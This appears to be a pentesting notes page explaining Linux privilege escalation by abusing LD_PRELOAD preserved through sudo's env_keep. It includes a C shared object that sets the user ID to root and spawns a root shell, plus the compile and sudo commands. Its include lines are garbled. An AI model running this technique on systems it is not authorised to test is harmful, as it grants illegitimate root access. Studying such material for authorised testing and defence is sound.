 # LD\_PRELOAD

LD\_PRELOAD is an environment variable which can be set to the path of a shared object \(.so\) file. When set, the shared object will be loaded before any others. By creating a custom shared object and creating an init\(\) function, we can execute code as soon as the object is loaded.

## Limitations

LD\_PRELOAD will not work if the real user ID is different from the effective user ID. sudo must be configured to preserve the LD\_PRELOAD environment variable using the env\_keep option.

List the programs your user is allowed to run via sudo -l

{% hint style="info" %}
Note that the env\_keep option includes the LD\_PRELOAD environment variable.
{% endhint %}

![](../../../../.gitbook/assets/env1.png)

Create a file \(preload.c\) with the following contents:

`#include  
 #include  
 #include  
 void _init() {  
 unsetenv("LD_PRELOAD");  
 setresuid(0,0,0);  
 system("/bin/bash -p");  
 }`

Compile preload.c to preload.so:

`gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c`

Run any allowed program using sudo, while setting the LD\_PRELOAD environment variable to the full path of the preload.so file:

`sudo LD_PRELOAD=/tmp/preload.so apache2`

![](../../../../.gitbook/assets/env2.png)











































